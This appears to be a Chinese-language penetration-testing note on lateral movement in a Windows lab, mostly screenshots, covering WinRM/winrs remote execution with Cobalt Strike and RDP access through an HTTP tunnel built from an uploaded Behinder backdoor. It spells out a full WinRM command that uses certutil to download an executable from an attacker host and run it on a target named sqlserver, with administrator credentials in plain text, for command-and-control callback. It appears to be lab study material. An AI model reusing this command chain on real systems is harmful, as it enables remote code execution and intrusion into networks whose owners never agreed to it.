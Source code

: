 利用条件：

1、win 2012之前利用需要手动开启winRM ，在win 2012之后(包括win 2012)的版本是默认开启的， 

2、防火墙对5986、5985端口开放。

​    先扫端口是否开放   5986、5985 （这里最好还是先提到system，在扫5985端口情况）

![1733135556613](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942174.png)

小插曲：

需要先开启WinRM服务：

![1733136365631](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942175.png)

winrs执行远程命令：

![1733136408276](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942176.png)

 解决cs上执行WinRM报错（cs不支持交互式），换一种执行方式。

![1733136693156](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942177.png)

用cs自带的插件运行也报错：

![1733136825756](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942178.png)

换了一种方式执行：

![1733136917715](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942179.png)

防火墙：

![1733141575985](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942180.png)

  反向

![1733142490112](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942181.png)

35 演示反向--------web站点（web机没有开web服务）  sql机打开防火墙：（入站拦截，出站不拦截）：

转发上线-----监听----用刚才的shell winrm invoke Create wmicimv2/win32_process @{CommandLine="cmd.exe /c certutil -urlcache -split -f http//192.168.3.31/4444.exe 4444.exe & 4444.exe"} -r:sqlserver -u:sqlserver\administrator -p:admin!@#45       执行上线

### RDP 

远程终端连接服务

对方开启RDP服务 3389 端口          远程桌面

​            还是socks代理，设置好后可以用mstac连接

![1733145385480](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942182.png)

连  隧道（http），这里是用冰鞋上传的后门建立的http隧道，实现内网穿透，将目标的3389远程终端连接端口映射到本地，不过这里需要的流量太大，冰鞋支持不了。其他的方法：frp,nps，iox等方法都需要上传到目标机，所以还是选用http隧道。
